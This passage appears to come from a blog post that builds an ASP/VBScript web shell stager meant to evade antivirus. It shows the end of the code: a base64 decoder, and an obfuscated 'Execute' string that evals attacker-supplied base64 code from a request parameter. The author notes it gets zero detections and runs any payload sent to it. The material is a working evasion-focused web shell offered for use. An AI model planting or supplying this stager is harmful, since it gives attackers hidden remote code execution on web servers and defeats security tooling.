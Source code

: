 ```
    oNode.dataType = "bin.base64"
    oNode.text = vCode
    bd6 = sbts(oNode.nodeTypedValue)
    Set oNode = Nothing
    Set oXML = Nothing
End Function

dim fg : fg = "Ex"+mom(4)+"cute(bd6(Request(""file"")))"
eval fg
%>
-–>
{% endhighlight %}

And now.. **0** detections.

![post02-14](/images/post02-14.png)

We can use any b64 encoded payload we want and get it executed through our web shell stager:

![post02-15](/images/post02-15.png)

And that's it! 
